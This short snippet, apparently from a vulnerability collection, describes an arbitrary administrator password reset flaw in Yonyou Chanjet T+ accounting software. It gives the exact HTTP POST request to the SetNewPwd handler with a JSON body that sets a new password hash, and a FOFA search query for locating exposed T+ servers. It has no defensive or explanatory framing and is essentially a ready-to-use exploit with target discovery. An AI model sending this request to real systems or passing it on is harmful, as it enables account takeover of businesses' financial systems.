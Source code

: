 用友畅捷通T+
管理员密码任意重置漏洞:
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd HTTP/1.1
{"pwdNew":"21232f297a57a5a743894a0e4a801fc3"}
FOFA:
app="畅捷通-TPlus"
